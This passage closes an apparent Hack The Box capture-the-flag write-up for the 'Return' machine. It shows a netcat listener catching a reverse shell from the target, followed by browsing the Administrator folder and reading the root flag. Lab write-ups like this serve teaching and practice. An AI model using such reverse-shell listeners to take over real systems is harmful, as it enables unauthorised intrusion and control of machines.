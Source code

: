 ![Untitled](Return/Untitled%206.png)

Before running I made sure I was started my netcat listener so .

Lets have a Administrator flag now →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Return]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.108] 62385
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
5f193360338570c2550071c9f207183d

C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}

I am Administrator Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }